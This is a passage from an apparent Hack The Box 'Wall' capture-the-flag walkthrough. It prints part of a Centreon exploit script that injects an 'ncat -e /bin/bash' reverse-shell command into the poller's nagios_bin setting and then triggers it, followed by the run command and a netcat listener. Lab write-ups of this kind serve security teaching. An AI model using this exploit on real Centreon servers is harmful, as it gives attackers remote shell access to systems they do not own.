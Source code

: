 ```python
    poller_soup = BeautifulSoup(poller_html)
    poller_token = poller_soup.findAll('input')[24].get("value")
    print("[+] Poller token is : {0}".format(poller_token))

    payload_info = {
        "name": "Central",
        "ns_ip_address": "127.0.0.1",
        # this value should be 1 always
        "localhost[localhost]": "1",
        "is_default[is_default]": "0",
        "remote_id": "",
        "ssh_port": "22",
        "init_script": "centengine",
        # this value contains the payload , you can change it as you want
        "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
        "nagiostats_bin": "/usr/sbin/centenginestats",
        "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
        "centreonbroker_cfg_path": "/etc/centreon-broker",
        "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
        "centreonbroker_logs_path": "",
        "centreonconnector_path": "/usr/lib64/centreon-connector",
        "init_script_centreontrapd": "centreontrapd",
        "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
        "ns_activate[ns_activate]": "1",
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,


    }

    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")
    print("[+] Check your netcat listener !")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    request.post(generate_xml_page, xml_page_data)

else:
    print("[-] Wrong credentials")
    exit()
```
So let's build our command again. In looking above we need a url, username, password, ip address, and port:

```python 47069.py http://10.10.10.157/centreon admin password1 10.10.14.75 42069```

and start our listener:
```console
root@endeavour:~/htb/wall# nc -lvnp 42069
listening on [any] 42069 ..
```
